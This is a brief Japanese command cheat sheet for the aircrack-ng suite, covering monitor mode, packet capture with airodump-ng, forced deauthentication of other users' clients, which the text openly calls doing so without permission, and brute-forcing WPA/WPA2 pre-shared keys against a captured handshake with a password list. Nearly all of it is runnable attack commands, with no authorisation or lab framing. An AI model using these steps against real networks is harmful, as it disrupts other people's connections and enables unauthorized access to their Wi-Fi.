 ```yaml
---
title: "aircrack-ng"
date: "2019-10-21 11:56:33 +0900"
---
```


aircrack-ng
===


### 無線NICのリストを表示

```bash
$ sudo airmon-ng
```

### NICを利用してる他のプロセスを殺す

```bash
$ sudo airmon-ng check kill
```

### パケットキャプチャを有効化

```bash
$ sudo airmon-ng start wlp3s0
```

これでwlp3s0monというNICが生える

### パケットキャプチャの開始

```bash
$ sudo airodump-ng wlp3s0 --bssid <bssid>  -w <filename>
$ sudo airodump-ng wlp3s0 --essid <essid>  -w <filename>
```

filename-01.{cap,csv,kismet...}ができる

### より認証時のパケットを集めるために、他人を勝手にdeauthenticateする

```bash
$ sudo aireplay-ng --deauth 1 -a <bssid> -c <client mac address> wlp3s0
```

client mac addressはairodumpの結果から適当に引っ張ってくる

### 鍵計算

WPA/WPA2 PSK(pre shared key)を総当り計算する

```bash
$ sudo aircrack-ng <option> *.cap
```

optionはいろいろあるっぽい

- -e <essid>
- -b <bssid>
- -c : search only alpha-numeric
- -w <filename> : passwird list

### パケットキャプチャモードの停止

```bash
$ sudo airmon-ng stop wlp3s0mon
